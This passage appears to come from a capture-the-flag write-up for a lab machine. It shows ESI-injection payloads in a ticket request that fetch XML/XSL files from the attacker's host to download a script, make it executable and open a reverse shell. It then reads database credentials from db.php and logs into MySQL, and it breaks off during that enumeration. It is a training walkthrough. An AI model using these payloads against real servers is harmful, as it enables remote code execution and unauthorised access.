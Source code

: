 # []() Got Shell as Sam

> let's Raise ticket and intercept the request with burp.

> Payload: title=sdasd&msg=asdasda&id=<esi:include+src="http://10.10.1x.xx:8000/upload.xml"+stylesheet="http://10.10.1x.xx:8000/upload.xsl">
</esi:include>

> look at this.
>
> ![](https://i.ibb.co/2ngtk5P/server.png)

> ![](https://i.ibb.co/mcv7Sxg/wget.png)

* cool, now let's run the seconed file to make my script executable.

> Payload: title=sdasd&msg=asdasda&id=<esi:include+src="http://10.10.1x.xx:8000/chmod.xml"+stylesheet="http://10.10.1x.xx:8000/chmod.xsl">
</esi:include>

> ![](https://i.ibb.co/FW2F1Zh/2.png)
>
> ![](https://i.ibb.co/Cs6Qj6G/22.png)

* now let's get a reverse shell.

> Payload: title=sdasd&msg=asdasda&id=<esi:include+src="http://10.10.1x.xx:8000/execute.xml"+stylesheet="http://10.10.1x.xx:8000/execute.xsl">
</esi:include>

> ![](https://i.ibb.co/tJVrJXv/sam2.png)
>
> ![](https://i.ibb.co/ScC7SGM/sam.png)

* cool, let's read user flag now.

> ![](https://i.ibb.co/7jV7y42/userflag.png)

# []()Privilege Escalation --> Srvadm

> after some enumeration i found another subdomain in **/etc/apache2/sites-available**.

> ![](https://i.ibb.co/PWBCzJF/srvadm.png)

> let's add it to my hosts list and open it.

> ![](https://i.ibb.co/FWHVq7n/printer.png)

> let's go to **/var/www/html/** and read the **db.php**

> ![](https://i.ibb.co/X71CRKN/db.png)

> okey now we need to login to this printer page, let's dump Database first.

> **mysql -h localhost -udb_adm -pdb_p4ss**

> type **use quick;** to change the database to Quick.
